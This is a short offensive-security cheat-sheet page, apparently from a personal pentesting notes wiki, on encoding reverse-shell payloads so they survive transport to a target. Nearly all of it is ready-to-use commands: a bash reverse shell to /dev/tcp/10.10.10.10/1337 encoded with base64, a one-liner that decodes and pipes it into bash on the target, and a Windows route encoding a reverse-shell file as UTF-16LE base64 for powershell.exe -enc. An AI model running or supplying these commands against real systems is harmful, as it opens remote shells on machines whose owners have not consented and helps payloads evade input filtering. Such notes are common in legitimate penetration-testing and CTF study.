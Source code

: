 # Encoded Shell Spawning

Sometimes using some [[Shell-Spawning]] tool is not enough either how characters are handled at any point clientside to serverside require encoding to be decoded back to execuatable form. The only assumption made is the the attacker machine is some Linux distro with default binaries and a encoding binary installed.

## Base64

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```

Decode Payload on target machine:

Linux
```bash
echo "$base64EncodedString" | base64 -d | bash
```

For Windows convert a file contain your reverse shell
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

```powershell
powershell.exe -enc outputFromTheCommandAbove
```
